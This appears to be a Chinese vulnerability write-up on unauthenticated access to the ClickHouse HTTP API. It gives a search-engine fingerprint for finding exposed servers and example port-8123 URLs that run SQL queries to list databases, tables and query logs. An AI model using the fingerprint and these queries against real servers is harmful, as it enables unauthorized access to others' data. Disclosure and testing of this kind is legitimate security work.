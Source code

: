 # ClickHouse API 数据库接口未授权访问漏洞

## 漏洞描述

ClickHouse API 数据库接口存在未授权访问漏洞，攻击者通过漏洞可以执行任意SQL命令获取数据库数据

## 漏洞影响

```
ClickHouse
```

## 网络测绘

```
"ClickHouse" && body="ok"
```

## 漏洞复现

登录页面

![img](./images/202202091258079.png)

执行SQL语句

![img](./images/202202091258245.png)

```
http://your-ip:8123/?query=SELECT%20*%20FROM%20system.query_thread_log%20LIMIT%201%20FORMAT%20Vertical
```

![img](images/202202091258274-16898396122771.png)

其他的SQL语句：

```
http://your-ip:8123/?query=SHOW%20DATABASES
```

```
http://your-ip:8123/?query=SELECT%20*%20FROM%20system.tables
```

